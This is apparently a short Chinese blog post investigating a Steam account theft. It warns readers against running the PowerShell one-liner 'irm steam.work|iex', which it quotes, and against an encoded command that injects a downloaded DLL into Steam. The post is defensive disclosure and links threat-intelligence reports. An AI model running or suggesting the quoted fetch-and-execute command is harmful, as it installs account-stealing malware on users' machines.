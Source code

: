 ```yaml
---
title:  "Steam洗号事件调查结果"
date:  2024-01-12
tags: Steam
categories: article
---
```

确认以下事件
> 无登录记录

> 无启用APIToken

> 邮箱安全

近期误点击脚本（或淘宝购买低价游戏的激活脚本）警告
以下命令严禁执行
```shell
powershell 
irm steam.work|iex
```
irm是由公网下载脚本执行,steam.work是脚本地址，iex是传递命令
```shell
powershell -encodedCommand "XXXX(base64加密内容，此处不展示）"
```
解密后从公网下载内容并注入steam的dll。
经确认，此文件为盗号病毒。
[文件分析](https://s.threatbook.com/report/file/0e346983d60d9eaac363993c09285609af7fa1a461c3fb92659dc7936f68cddd)
[域名分析](https://x.threatbook.com/v5/domain/steam.work)
[域名脚本分析](https://s.threatbook.com/report/file/0b4f0b039f204b0eccf9cf7f98cb1847c7b8d75351ced15de63b4a560f657017)
目前，steam.work已自动跳转steam官方页面（严禁通过此域名访问），持续关注中
另，近期淘宝低价游戏（需要下载登陆器或执行命令后激活的）不要购买！！！

[参考链接](https://www.cnblogs.com/macanpsc/p/17831267.html)